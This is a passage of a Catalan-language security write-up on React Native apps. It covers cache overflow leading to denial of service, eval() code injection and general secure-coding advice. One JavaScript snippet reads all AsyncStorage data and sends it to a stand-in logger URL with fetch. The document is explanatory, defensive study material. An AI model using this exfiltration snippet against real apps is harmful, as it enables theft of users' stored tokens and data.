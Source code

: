 El problema rau en la incertesa del tamany de la informació que rebrem. L'aplicació en react native o en web browser té un espai de memòria finit, ja sigui degut a altres aplicacions en marxa o per què fisicament el dispositiu no dóna per més. Llavors el problema està directament en què si les crides retornen molta informació la memòria cau s'emplena, comencen a haver-hi fallades de memòria, aquesta informació passa de cau a ramm per que entri la nova que també és requerida per el funcionament i que torna a entrar en cau fent que l'altre informació passi a ramm i creant així un bucle que provoca un DoS. El problema està molt més documentat i fonamentat, jo he intentat resumir-lo amb paraules que considero que no son tècniques. En general el problema és un sobreeiximent de la caché. 

És una vulnerabilitat a tenir en compte ja que hi ha moltes aplicacions que permeten configurar les fonts d'informació amb les que volen treballar. Com a curiositat, Discord, una app que permet la interacció entre jugadors mentre juguen a jocs online i creada en React Native ha patit les conseqüències del memory leak, veure [12].

## React Native

Ja que react native és un framework que mapeja directament els objectes javascript en els mateixos del sistema ios o android amb els que s'estigui desenvolupant, no existeix el món web, i per tant no existeix el XSS, no existeix tampoc HTML. Per tant es podria **intentar** dir que react native aplicat a aplicacions mòbils no té cap tipus de vulnerabilitat, peró seria mentida! 

Si bé és cert que al no tenir html no hi ha la creació dinàmica de components, no hi ha XSS i HTML no existeix. Tal com es comenta a [11] sí que es podria arribar a injectar codi a una app react native utilitzant la instrucció eval(). De totes formes aquest tipus de vulnerabilitat ha estat explicada a la secció javascript pur d'aquest document i es consideraria bad programming.  

Un exemple en el que s'aconsegueix accedir a la informació del Async storage (espai compartit on es pot desar informació en el client) i publicar-la.

```
_reactNative.AsyncStorage.getAllKeys(
    function(err,result){
        _reactNative.AsyncStorage.multiGet(result, function(err,result){
            fetch(‘http://example.com/logger.php?token='+JSON.stringify(result));
        });
    }
);
```

# Conclusions

El gran problema de react native no és react native en sí, sinó que qualsevol tipus d'atac que existeixi en un entorn android o ios, serà també un problema per una aplicació react native, ja que, evidentment es fa la traducció del javascript a el llenguatge natiu a l'hora de compilar, i per tant s'acaba tenint una app mòbil com una altre. 

No es pot programar sense por a ser hackejat. Sempre has de ser el més paranoic del pati i has d'estar al dia dels possibles problemes que s'han anat trobant els demés, sobretot per què el més important és programar bé. Si es programa bé estàs menys exposat, com s'ha anat comentant gran part dels problemes de seguretat no estan en el mateix codi sinó que estan en la manera de programar de la gent. 

**Com ja he comentat anteriorment, el bad programming és un fet. I com comento en aquest moment, jo també faig bad programming, fins que me n'adono de que l'estic fent**.
